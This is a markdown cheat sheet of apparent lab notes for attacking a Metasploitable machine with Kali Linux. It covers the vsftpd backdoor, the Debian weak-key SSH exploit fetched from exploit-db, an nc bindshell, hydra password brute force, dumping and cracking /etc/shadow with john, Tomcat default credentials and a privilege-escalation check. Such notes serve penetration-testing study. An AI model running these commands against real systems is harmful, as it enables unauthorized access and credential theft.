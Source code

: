 # Hacking with Kali Linux

## FTP hacking
- Launch `msfconsole`
- Search `vsftpd 2.3.4`
- Get root shell
- `wget -m --ftp-user=msfadmin --ftp-password=msfadmin ftp://192.168.100.3/vulnerable`
- `wget -m --ftp-user=msfadmin --ftp-password=msfadmin ftp://192.168.100.3:2121/vulnerable`

## SSH hacking
- Vulnerability: Predictable PRNG Brute Force SSH  
- Exploit: `https://www.exploit-db.com/download/5720`  
- Keys: `https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2` (Extract it)
- `python2 5720.py`
- `./exploit.py <dir> <host> <user> [[port] [threads]]`
- `python2 5720 keys 192.168.100.3 root 22 10`
- Key found example: `57c3115d77c56390332dc5c49978627a-5429`
- Execute:
  - `ssh -l root -p 22 -i keys/57c3115d77c56390332dc5c49978627a-5429 192.168.100.3`
- (Requires `~/.ssh/config` for this workflow)

## Other legacy/weak services
- `telnet 192.168.100.3 23` (Telnet - Metasploitable shell)
- `rlogin -l root 192.168.100.3` (rlogind - OpenBSD/Solaris)
- `nc 192.168.100.3 1524` (bindshell Metasploitable root shell)

## Web service hacking
- `nikto -host 192.168.100.3 -p 8180` (8180 - non-standard port)
- Example vuln: `/manager/html: Default account found for 'Tomcat Manager Application' (tomcat:tomcat)`
- Browser: `http://192.168.100.3:8180` → Tomcat Manager → `tomcat:tomcat`
- `http://logout:logout@192.168.100.3:8180/manager/html`
- Launch `msfconsole` and search for tomcat exploit

## Database hacking & password attacks
- `nmap -p 3306 -sV 192.168.100.3` (MySQL)
- `hydra -l root -P wordlist.txt mysql://192.168.100.3`
- `mysql -u root -p -h 192.168.100.3 --skip-ssl`
- SQL: `show databases; use dvwa; show tables; select * from users;`
- Local files:
  - `cat /etc/passwd` (passwd-file)
  - `cat /etc/shadow` (shadow-file)
- Create crackable file:
  - `unshadow passwd-file shadow-file > crack-me`
  - `john crack-me`
  - or: `unshadow passwd-file shadow-file > passwords`
  - `john --wordlist=/usr/share/wordlists/rockyou.txt passwords`
  - `john --show passwords`

## Sniffing passwords
- Look for HTTP Authorization in Wireshark:
  - `Authorization: Basic dG9tY2F0OnRvbWNhdA==`
- Base64 decode: `dG9tY2F0OnRvbWNhdA==` → `tomcat:tomcat`

## Privilege Escalation
- Download unix privesc check:
  - `wget https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz`
- Transfer to target:
  - `scp unix-privesc-check-1.4.tar.gz msfadmin@192.168.100.3:/tmp/`
  - or `scp -O -r ~/Downloads/unix-privesc-check-1.4 msfadmin@192.168.100.3:/tmp`
- On target:
  - `tar -zxvf unix-privesc-check-1.4.tar.gz`
  - `cd unix-privesc-check-1.4`
  - `./unix-privesc-check standard`
